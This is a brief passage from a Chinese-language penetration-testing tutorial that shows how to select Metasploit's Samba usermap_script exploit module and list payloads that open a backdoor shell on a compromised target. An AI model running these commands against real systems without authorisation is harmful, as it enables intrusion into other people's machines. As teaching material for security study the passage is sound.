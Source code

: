 ![此处输入图片的描述](../imgs/wm_28.png)


### 9.3 配置攻击模块

为了能够用好攻击模块，我们需要进行一些相应的配置。

首先，告诉系统我们将要使用的攻击模块：

```
msf > use exploit/multi/samba/usermap_script
```

查看攻击负荷（payload）列表，在这里 payload 用来在目标被攻陷后创建后门 Shell：

```
msf > show payloads
```
